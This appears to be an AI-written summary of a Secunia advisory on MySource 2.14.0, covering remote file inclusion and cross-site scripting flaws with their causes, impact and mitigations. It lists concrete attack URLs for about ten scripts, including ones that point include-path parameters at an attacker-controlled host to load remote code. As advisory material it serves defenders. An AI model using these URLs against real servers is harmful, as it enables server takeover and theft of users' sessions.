 Based on the provided content, here's the breakdown of the vulnerabilities in MySource 2.14.0 as described in the Secunia advisory:

**Vulnerabilities:**

1.  **Arbitrary File Inclusion:**
    *   **Root Cause:** Insufficient input verification before using the input to include files.
    *   **Weakness:** The application does not properly sanitize input parameters such as `INCLUDE_PATH`, `SQUIZLIB_PATH`, and `PEAR_PATH` before using them to include files, allowing an attacker to specify arbitrary local or remote files to be included.
    *   **Attack Vectors:** HTTP GET requests with malicious parameters to various PHP files within the web application, allowing for remote file inclusion. Examples of vulnerable URLs and parameters include:
        *   `http://[victim]/web/edit/upgrade_functions/new_upgrade_functions.php?INCLUDE_PATH=http://[host]/[file]`
        *   `http://[victim]/web/edit/upgrade_functions/new_upgrade_functions.php?SQUIZLIB_PATH=http://[host]/[file]`
        *   `http://[victim]/web/init_mysource.php?INCLUDE_PATH=http://[host]/[file]`
        *   `http://[victim]/pear/Net_Socket/Socket.php?PEAR_PATH=http://[host]/[file]`
        *   `http://[victim]/pear/HTTP_Request/Request.php?PEAR_PATH=http://[host]/[file]`
        *   `http://[victim]/pear/Mail/Mail.php?PEAR_PATH=http://[host]/[file]`
        *   `http://[victim]/pear/Date/Date.php?PEAR_PATH=http://[host]/[file]`
        *   `http://[victim]/pear/Date/Date/Span.php?PEAR_PATH=http://[host]/[file]`
        *   `http://[victim]/pear/Mail_Mime/mimeDecode.php?PEAR_PATH=http://[host]/[file]`
        *   `http://[victim]/pear/Mail_Mime/mime.php?PEAR_PATH=http://[host]/[file]`

    *   **Impact:** System compromise and potential for arbitrary code execution by including malicious files, leading to complete control of the vulnerable web server.
    *   **Required Capabilities/Position:** The attacker must be able to send HTTP requests to the vulnerable server. `register_globals` must be enabled on the server, and the affected scripts must be accessible within the web root.

2.  **Cross-Site Scripting (XSS):**
    *   **Root Cause:** Inadequate sanitization of user-supplied input before displaying it back to the user.
    *   **Weakness:** The application does not properly sanitize input parameters before returning them to the user, which allows for the injection of arbitrary HTML and script code, leading to XSS attacks.
    *    **Attack Vectors:** HTTP GET requests with malicious parameters to various PHP files within the web application. Examples of vulnerable URLs and parameters include:
          *   `http://[victim]/web/edit/upgrade_in_progress_backend.php?target_url=">[code]`
          *  `http://[victim]/squizlib/bodycopy/pop_ups/insert_table.php?bgcolor=</style>[code]`
          *   `http://[victim]/squizlib/bodycopy/pop_ups/edit_table_cell_props.php?bgcolor=</style>[code]`
          *   `http://[victim]/squizlib/bodycopy/pop_ups/header.php?bgcolor=</style>[code]`
          *  `http://[victim]/squizlib/bodycopy/pop_ups/edit_table_row_props.php?bgcolor=</style>[code]`
          *  `http://[victim]/squizlib/bodycopy/pop_ups/edit_table_props.php?bgcolor=</style>[code]`
          *   `http://[victim]/squizlib/bodycopy/pop_ups/edit_table_cell_type_wysiwyg.php?stylesheet=">[code]`

    *   **Impact:** Execution of arbitrary HTML and JavaScript code in a user's browser session, allowing the attacker to steal cookies, hijack user sessions, deface the website, or redirect users to malicious sites.
    *    **Required Capabilities/Position:** The attacker must be able to send HTTP requests to the vulnerable server. `register_globals` must be enabled on the server, and the affected scripts must be accessible within the web root.

**Mitigation:**

*   The vendor fixed the vulnerabilities in version 2.14.2 by warning the user about security risks during installation.
*   Users should set `register_globals` to "Off".
*   The MySource installation should be moved out of the web root.

**Severity:** Highly critical due to the potential for remote code execution and cross-site scripting.